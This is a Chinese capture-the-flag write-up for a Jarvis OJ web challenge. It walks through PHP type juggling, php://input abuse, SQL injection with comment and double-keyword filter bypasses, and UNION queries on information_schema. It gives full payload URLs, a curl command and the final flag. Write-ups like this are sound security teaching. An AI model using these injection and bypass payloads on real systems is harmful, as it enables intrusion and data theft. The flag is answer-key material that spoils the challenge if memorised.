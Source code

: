 ## 描述

连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。

题目入口：http://web.jarvisoj.com:32780/

跳转到了 http://web.jarvisoj.com:32780/index.php?id=1

```html
<!--index.phps-->work harder!harder!harder!
```


## 题解

没有有效的信息，只有那个 `?id=1` 比较显眼。

尝试 sql 注入，没卵用。

发现之前那个 response 里的注释是 `index.phps`，尝试了一下居然打开了！得到

```php
<?php

error_reporting(0);
echo "<!--index.phps-->";

if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
?>
```

查了下 `eregi` 和 `substr` 的用法，可以知道 `eregi("111".substr($b,0,1),"1114")` 这句话是将 `111` 与 `b` 的第一个字符拼起来，然后作为正则表达式去匹配 `1114`，匹配成功则为 true。（但是注意 `eregi` 在 PHP 7 就移除了，只是从 response header 来看服务器的 PHP 还是 5.X，所以能用）

那么这就很好办了，构造 `b=*11111` 就好了。

接下来思考如何让 `id=0`，思考一下 `id=0x0` 是不是就行了？哈哈哈还真的行。

现在来看 `data` 得如何得到 `1112 is a nice lab!` 这个字符串。

先尝试 http://web.jarvisoj.com:32780/index.php?id=0x0&b=*11111&a=g.g 得到了 `HIAHIAHIA` 的 response，与 `Hahahahahaha` 不符，猜测 `index.phps` 一定是一个由程序员偷懒而重命名得到的废弃文件哈哈哈，与 `index.php` 还是有差别的。

查询一下 `file_get_contents` 这个函数，发现这玩意是能获取 URL 的！！！但是如果没得自己的服务器支持挺难找的。。

再搜了一下发现了 `php://input` 这个玩意！！所以构造 `a=php://input/`，然后再 `POST` 一下 `1112 is a nice lab!` 就好！

`curl "http://web.jarvisoj.com:32780/index.php?id=0x0&b=*11111&a=php://input" -d "1112 is a nice lab!"`

于是得到 `<!--index.phps-->﻿Come ON!!! {/^HT2mCpcvOLf}`

看起来像地址，所以访问 http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf

跳转到了 http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=1

然后发现没多余信息了，头大。再尝试注入 `id=1 and 0`，发现得到了新东西！

```
you bad boy/girl!
```

看来有希望了，搞事情开始。然后发现注入全是得到上面的东西。。。。。。。。失望。

开始试试 `id=0`，没用。`id=2`，返回了新东西

```
SELECT * FROM content WHERE id=2
```

没卵用。。发现只要 `id` 里有空格就不行。。看下题解吧。

woc，空格能花式绕过，见 http://drops.xmd5.com/static/drops/tips-7299.html

> 空格替换：%20, %09, %0a, %0b, %0c, %0d, %a0  
  也可以插入括号，前缀，操作符，引号  
  'or+(1)sounds/**/like"1"--%a0-

在这里可以用 `/*1*/`。

但是还是好多关键字不能用。。查资料发现。。好多姿势。。。 https://blog.csdn.net/wy_97/article/details/78085664

根据简易的过滤规则（比如只替换关键字为空），我们便能双写关键字达到目的。。比如这样

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=2/*1*/seleselectct`

那么我们根据 `SELECT * FROM content WHERE id=2` 知道表名是 `content`，现在来找列名。

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=2/*1*/ununionion/*1*/selselectect/*1*/1,2,group_concat(column_name)/*1*/frfromom/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636f6e74656e74`

注意表名我们用十六进制绕过了。得到

`id,context,title`

所以再找一下列里的信息就好了

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=2/*1*/ununionion/*1*/selselectect/*1*/1,2,context/*1*/frfromom/*1*/content`

得到答案

## 答案

PCTF{Fin4lly_U_got_i7_C0ngRatulation5}